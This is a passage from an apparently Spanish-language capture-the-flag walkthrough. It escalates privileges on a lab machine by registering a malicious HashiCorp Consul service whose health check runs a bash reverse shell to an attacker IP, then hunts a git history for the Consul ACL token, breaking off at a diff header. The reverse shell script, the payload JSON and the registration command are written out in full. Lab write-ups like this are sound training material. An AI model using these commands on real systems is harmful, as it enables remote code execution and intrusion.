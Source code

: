 > [Service Configuration](https://developer.hashicorp.com/consul/docs/discovery/services#register-services-with-service-definitions)

![Service configuration](service_configuration.png){: .shadow}

Ahora creamos nuestros archivos:

> _reverse.sh_

```shell
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.155/1234 0>&1
```

> _payload.json_

```json
{
  "ID": "marss_service",
  "Name": "rce",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 80,
  "Check": {
    "DeregisterCriticalServiceAfter": "90m",
    "Args": ["/tmp/.10.10.14.155/reverse.sh"],
    "Interval": "10s",
    "Timeout": "86400s"
  }
}
```

Ejecutamos el comando para subir nuestro servicio y nos aparece lo siguiente:

```console
developer@ambassador:/tmp/.10.10.14.155$ curl -X PUT --data @payload.json \
  http://localhost:8500/v1/agent/service/register?replace-existing-checks=true
Permission denied: token with AccessorID '00000000-0000-0000-0000-000000000002' lacks permission 'service:write' on "redis"
```

Explorando más la documentación tenemos lo siguiente:

> [Consul Authentication](https://developer.hashicorp.com/consul/api-docs/api-structure)

![Consul auth](consul_token.png){: .shadow}

Entonces lo que nos falta es el `token` para poder realizar peticiones y así ejecutar nuestro servicio. Por ello, enumerando el sistema encontramos un repositorio `git` en el directorio `my-app` y revisando los cambios del último log encontramos el token:

```console
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1 22:13 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
developer@ambassador:/opt/my-app$ git show
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
```